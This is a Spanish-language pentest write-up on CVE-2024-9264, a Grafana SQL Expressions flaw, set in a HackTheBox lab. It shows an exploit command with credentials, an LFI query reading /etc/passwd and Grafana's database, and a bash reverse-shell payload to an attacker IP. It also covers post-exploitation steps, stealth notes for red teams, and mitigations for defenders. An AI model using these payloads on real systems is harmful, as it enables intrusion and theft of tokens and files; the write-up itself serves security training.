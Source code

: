 ## 🎯 CVE-2024-9264 — Explotando Grafana para RCE / LFI via SQL Expressions

---

### 🛠️ Contexto para pentesters

Grafana, ampliamente usado para visualización de métricas y dashboards, puede ser un blanco muy jugoso durante una intrusión. Aunque muchas veces se usa solo como herramienta de monitorización y dashboards, cuando es mal configurado o expuesto públicamente, puede ofrecer **un punto de entrada completo al sistema**.

Este CVE permite a un atacante con **credenciales válidas (hasta con rol VIEWER)** ejecutar comandos en el sistema o leer archivos sensibles si ciertas condiciones se cumplen.

---

### 🧨 Vulnerabilidad: SQL Expressions + DuckDB = LFI/RCE

**CVE-2024-9264** afecta a la funcionalidad experimental **SQL Expressions** introducida en Grafana 11. Esta permite crear consultas SQL sobre datos previamente cargados... pero internamente usa el motor **DuckDB** para procesarlas.

El problema es que **el input del usuario no se filtra adecuadamente**, y DuckDB **permite funciones como `read_file`, `read_blob`, `pragma`, y más** que pueden ser abusadas para leer archivos arbitrarios o incluso ejecutar código si el entorno lo permite.

---

### 🧪 Requisitos para explotación exitosa

| Requisito                                  | Necesario para                                                                   |
| ------------------------------------------ | -------------------------------------------------------------------------------- |
| Credenciales válidas (VIEWER+)             | Acceso a dashboards para crear o modificar paneles                               |
| Acceso a la funcionalidad “SQL Expression” | Función activa en versiones 11.x                                                 |
| Binario `duckdb` en el `$PATH` del sistema | Requisito para que la funcionalidad funcione (por defecto **no está instalado**) |

---

### ⚔️ Escenario de pentest

Supongamos que en una máquina de HackTheBox encuentras un panel en `http://grafana.planning.htb` con las siguientes credenciales válidas:

```
usuario: admin
password: 0D5oT70Fq13EvB5r
```

Y ejecutas el siguiente exploit:

```bash
python3 grafanaexploit.py \
  --url 'http://grafana.planning.htb' \
  --username 'admin' \
  --password '0D5oT70Fq13EvB5r' \
  --reverse-ip '10.10.14.6' \
  --reverse-port '443'
```

El script intenta automatizar los siguientes pasos:

1. Iniciar sesión con las credenciales.
2. Crear un nuevo dashboard/panel usando SQL Expressions.
3. Inyectar un payload que lee un archivo o ejecuta un comando vía DuckDB.
4. Si RCE: lanzar reverse shell a tu IP (listener en 443).
5. Si no hay RCE posible, intentará LFI (`read_file`, `read_blob`, etc.)

---

### 📂 Técnicas de explotación

#### 🧬 LFI con SQL Expression

```sql
SELECT content FROM read_blob('/etc/passwd')
```

DuckDB ejecuta esto y devuelve el contenido del archivo como parte de los datos del panel. También puedes probar rutas más interesantes:

* `/proc/self/environ`
* `/etc/grafana/grafana.ini`
* `./conf/defaults.ini`
* `./data/grafana.db` (¡base de datos completa de Grafana!)

---

#### 🔥 RCE vía DuckDB PRAGMA

En versiones específicas, DuckDB permite ejecutar comandos usando PRAGMA o funciones no documentadas. El exploit se apoya en funciones de sistema que pueden abrir pipes, leer comandos o abusar del sistema de archivos si el entorno lo permite.

Ejemplo (simplificado):

```sql
SELECT * FROM system('bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"')
```

> **Nota**: Esta técnica puede requerir habilitar ciertos flags internos o depender de una versión vulnerable específica de DuckDB que esté en el sistema.

---

### 🪓 Persistencia + Pivoting

Una vez que obtienes shell:

* Dump del archivo `grafana.db` → contiene tokens de API, usuarios, sesiones.
* Buscar integraciones con otras herramientas: Prometheus, Loki, AWS, etc.
* Revisar `/etc/passwd`, `sudo -l`, `cron jobs`, `env`, etc.
* Posible movimiento lateral si la máquina corre como `grafana` user con acceso a otros recursos.

---

### 📌 Recomendaciones para Red Teams

* Grafana expuesto públicamente → potencial punto de entrada silencioso si los logs están mal configurados.
* Usuarios VIEWER tienen **más poder del que parece** si la función `SQL Expressions` está activa.
* La explotación no genera errores visibles para el usuario, lo que permite RCE **sin alertas inmediatas**.

---

### 🧱 Mitigación para defensores (Blue Team)

* Actualizar Grafana a 11.2.1+security o superior.
* Eliminar el binario `duckdb` del sistema si no se usa.
* Revocar permisos para usuarios no autorizados en dashboards que usen SQL Expressions.
* Auditar dashboards que contienen `read_blob`, `read_file`, etc.

---

### 🔗 Referencias útiles

* 🔗 [Exploit oficial - GitHub](https://github.com/nollium/CVE-2024-9264)
* 🔗 [Advisory oficial de Grafana](https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/)
* 📄 [SecLists de archivos sensibles para LFI](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)